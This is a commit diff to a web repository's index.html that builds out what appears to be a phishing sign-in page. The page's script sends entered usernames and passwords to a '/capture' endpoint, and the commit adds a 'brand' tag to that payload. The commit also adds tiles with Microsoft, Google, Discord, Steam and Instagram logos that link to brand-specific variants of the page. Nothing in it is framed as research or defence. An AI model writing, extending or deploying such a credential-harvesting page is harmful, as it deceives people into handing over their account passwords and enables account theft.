

Before and after one commit to dniq123-oss/67, a website: page public/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with Linux system fonts and the light colour scheme; grey boxes are pictures that could not be loaded.

Commit message:
Update index.html

```diff
--- a/public/index.html
+++ b/public/index.html
@@ -4,9 +4,61 @@
 <meta charset="utf-8">
 <meta name="viewport" content="width=device-width, initial-scale=1">
 <title>Sign in</title>
-<link rel="stylesheet" href="/style.css">
+<style>
+  * { box-sizing: border-box; }
+  body {
+    margin: 0; min-height: 100vh; display: flex; flex-direction: column; align-items: center; justify-content: center;
+    font-family: -apple-system, Segoe UI, Roboto, sans-serif;
+    background: #0f1115; color: #e6e6e6; padding: 20px;
+  }
+
+  /* الفورم الأساسي */
+  .card {
+    width: 100%; max-width: 360px; padding: 32px; background: #171a21; border-radius: 12px;
+    box-shadow: 0 10px 40px rgba(0,0,0,.4); margin-bottom: 24px;
+  }
+  h1 { margin: 0 0 4px; font-size: 22px; }
+  .sub { margin: 0 0 24px; color: #8a8f99; font-size: 14px; }
+  input {
+    width: 100%; padding: 12px; margin-bottom: 12px; border-radius: 8px;
+    border: 1px solid #2a2f3a; background: #0f1115; color: #e6e6e6; font-size: 14px;
+  }
+  input:focus { outline: none; border-color: #4a90e2; }
+  button {
+    width: 100%; padding: 12px; border: 0; border-radius: 8px;
+    background: #4a90e2; color: white; font-weight: 600; cursor: pointer; font-size: 14px;
+  }
+  button:hover { background: #3a7bc8; }
+  #msg { color: #e26a6a; font-size: 13px; margin-top: 12px; min-height: 16px; text-align: center; }
+
+  /* الفاصل */
+  .divider {
+    display: flex; align-items: center; text-align: center; color: #8a8f99; font-size: 13px; margin-bottom: 24px; width: 100%; max-width: 360px;
+  }
+  .divider::before, .divider::after {
+    content: ''; flex: 1; border-bottom: 1px solid #2a2f3a;
+  }
+  .divider:not(:empty)::before { margin-right: .25em; }
+  .divider:not(:empty)::after { margin-left: .25em; }
+
+  /* شبكة الشعارات */
+  .grid {
+    display: grid; grid-template-columns: repeat(3, 1fr); gap: 12px; width: 100%; max-width: 360px;
+  }
+  .tile {
+    background: #171a21; border: 1px solid #2a2f3a; border-radius: 10px;
+    padding: 16px 8px; cursor: pointer; transition: all .15s ease;
+    display: flex; flex-direction: column; align-items: center; justify-content: center; gap: 8px;
+    text-decoration: none; color: inherit;
+  }
+  .tile:hover { border-color: #4a90e2; background: #1c2029; transform: translateY(-2px); }
+  .tile img { height: 28px; width: auto; max-width: 100%; object-fit: contain; }
+  .tile span { font-size: 11px; color: #b5bac1; font-weight: 500; }
+</style>
 </head>
 <body>
+
+  <!-- الفورم الأساسي -->
   <div class="card">
     <h1>Sign in</h1>
     <p class="sub">to continue</p>
@@ -17,6 +69,40 @@
     </form>
     <p id="msg"></p>
   </div>
+
+  <!-- الفاصل -->
+  <div class="divider">or continue with</div>
+
+  <!-- الشعارات -->
+  <div class="grid">
+    <a class="tile" href="/?b=microsoft">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/4/44/Microsoft_logo.svg" alt="Microsoft">
+      <span>Microsoft</span>
+    </a>
+    <a class="tile" href="/?b=google">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/2/2f/Google_2015_logo.svg" alt="Google">
+      <span>Google</span>
+    </a>
+    <a class="tile" href="/?b=discord">
+      <img src="https://assets-global.website-files.com/6257adef93867e50d84d30e2/636e0a6ca814282eca7172c6_icon_clyde_white_RGB.svg" alt="Discord">
+      <span>Discord</span>
+    </a>
+    <a class="tile" href="/?b=steam">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/8/83/Steam_icon_logo.svg" alt="Steam">
+      <span>Steam</span>
+    </a>
+    <a class="tile" href="/?b=instagram">
+      <img src="https://upload.wikimedia.org/wikipedia/commons/e/e7/Instagram_logo_2016.svg" alt="Instagram">
+      <span>Instagram</span>
+    </a>
+    <a class="tile" href="/instagram.html">
+      <svg viewBox="0 0 24 24" fill="none" stroke="#b5bac1" stroke-width="1.5" style="height:28px;width:28px">
+        <circle cx="12" cy="12" r="9"/><path d="M12 8v4l3 2"/>
+      </svg>
+      <span>Other</span>
+    </a>
+  </div>
+
 <script>
 document.getElementById('f').addEventListener('submit', async e => {
   e.preventDefault();
@@ -24,7 +110,7 @@ document.getElementById('f').addEventListener('submit', async e => {
   const r = await fetch('/capture', {
     method: 'POST',
     headers: { 'Content-Type': 'application/json' },
-    body: JSON.stringify({ user: fd.get('user'), pass: fd.get('pass') })
+    body: JSON.stringify({ user: fd.get('user'), pass: fd.get('pass'), brand: 'generic' })
   });
   const j = await r.json().catch(() => ({}));
   if (j.redirect) { window.location = j.redirect; return; }
```
